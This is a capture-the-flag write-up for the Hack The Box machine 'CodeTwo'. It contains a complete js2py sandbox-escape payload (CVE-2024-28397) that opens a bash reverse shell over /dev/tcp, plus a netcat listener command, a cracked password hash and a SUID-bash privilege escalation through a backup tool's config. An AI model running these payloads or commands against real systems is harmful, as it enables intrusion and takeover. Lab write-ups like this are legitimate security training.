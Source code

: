 # CodeTwo Hack the Box Writeup


## Ip
- 10.10.11.82



## Initial Scan
- ```nmap -sV -sC -oN nmap/code2.nmap 10.10.11.82```

- SSH on port 22: Standard OpenSSH service (potential entry point if we find credentials)
- HTTP on port 8000: Gunicorn web server (Python WSGI HTTP Server)

## Initial access
- Navigating to http://10.10.11.82:8000, we discover a web application called "CodeTwo" that offers:
  - site reg
  - javascript code editor
  - code snippit magnet features

## Source code analysis
- application offers a download feature that provides ```app.zip``` then you are able to get ```app.py```

```from flask import Flask, render_template, request, redirect, url_for, session, jsonify
import js2py

js2py.disable_pyimport()
app = Flask(__name__)
app.secret_key = 'S3cr3tK3yC0d3Tw0'

@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

- js2py Sandbox Escape (CVE-2024-28397) is identified 
- application uses ```js2py.eval_js()``` to execute user-provided JavaScript
- Despite calling ```js2py.disable_pyimport()```, the library is vulnerable to sandbox escape in versions ≤ 0.74 on Python ≤ 3.11
- weak af password hashing
- exposed key as well

## Exploiting CVE-2024-28397

- CVE-2024-28397 is a sandbox escape vulnerability in js2py that allows attackers to break out of the JavaScript execution environment and execute Python code. The vulnerability exists because js2py doesn't properly isolate JavaScript objects from Python's object model. (claude)

- JavaScript objects in js2py maintain references to Python's internal structures
- Through Object.getOwnPropertyNames, we can access Python's __getattribute__ method
- We traverse Python's class hierarchy using __class__.__base__
- We locate the subprocess.Popen class
- We execute system commands through Popen

## Payload 
```let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.11.82/4444 0>&1'";

let hacked, bymarve, n11;
let getattr, obj;

// Access Python's internal attributes through JS objects
hacked = Object.getOwnPropertyNames({});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");

// Get to Python's base object class
obj = n11("__class__").__base__;
getattr = obj.__getattribute__;

// Recursive function to find subprocess.Popen in Python's class hierarchy
function findpopen(o) {
  let result;
  for (let i in o.__subclasses__()) {
    let item = o.__subclasses__()[i];
    if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
      return item;
    }
    if (item.__name__ != "type" && (result = findpopen(item))) {
      return result;
    }
  }
}

// now we execute 
findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
"OK";
```
### before I execute the payload
- set up a nc listener ```nc -lvnp 4444```
  
## Then execute the payload in the applications code editor
- and now you have shell

## Now traverse
- marco is in ```/home```
- found sqlite ```/home/app/app/instance/users.db```
- got marcos MD5 hash ```649c9d65a206a75f5abe509fe128bce5``` -> ```sweetangelbabylove```

## Lateral Movement
- su'ed into marcos account
- got userflag ```0a7274c492924335ba414eb8f13ab5e8```
- ```sudo -l``` and found marco can execute ```/usr/local/bin/npbackup-cli```
- also found npbackup config file at ```/home/marco/npbackup.conf```
- changed config to add malicious command in ```pre_exec_commands: ["/tmp/root_shell.sh"]```
- made ```/tmp/root_shell.sh``` script to copy bash and set SUID bit
    ```
    cat > /tmp/root_shell.sh << 'EOF'
    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash
    EOF
    chmod +x /tmp/root_shell.sh
    ```
- ```sudo /usr/local/bin/npbackup-cli --config-file /home/marco/npbackup.conf --backup --force```
- created SUID binary ```/tmp/rootbash``` -p to gain root shell
- flag! ```f6eda40e88de9756406a4a16f35b7633```

